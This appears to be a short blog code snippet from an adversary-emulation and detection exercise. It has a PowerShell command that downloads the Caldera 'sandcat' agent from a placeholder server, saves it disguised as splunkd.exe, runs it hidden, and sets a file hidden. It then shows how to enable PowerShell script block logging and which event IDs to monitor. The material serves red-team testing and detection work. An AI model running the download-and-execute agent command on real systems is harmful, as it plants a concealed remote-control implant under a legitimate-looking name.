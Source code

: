 # blog
$server="http://0.0.0.0:8888";
$url="$server/file/download";
$wc=New-Object System.Net.WebClient;
$wc.Headers.add("platform","windows");
$wc.Headers.add("file","sandcat.go");
$data=$wc.DownloadData($url);
get-process | ? {$_.modules.filename -like "C:\Users\Public\splunkd.exe"} | stop-process -f;
rm -force "C:\Users\Public\splunkd.exe" -ea ignore;
[io.file]::WriteAllBytes("C:\Users\Public\splunkd.exe",$data) | Out-Null;
Start-Process -FilePath C:\Users\Public\splunkd.exe -ArgumentList "-server $server -group red" -WindowStyle hidden;
$file = Get-Item $env:temp\T1564.001-9.txt -Force; $file.attributes='Hidden'
```
function Enable-PSScriptBlockLogging {
    $basePath = @(
        'HKLM:\Software\Policies\Microsoft'
        'PowerShellCore\ScriptBlockLogging'
    ) -join '\'

    if (-not (Test-Path $basePath)) {
        $null = New-Item $basePath -Force
    }

    Set-ItemProperty $basePath -Name EnableScriptBlockLogging -Value "1"
}
```

- name: Microsoft-Windows-PowerShell/Operational
  event_ids: 4103, 4104

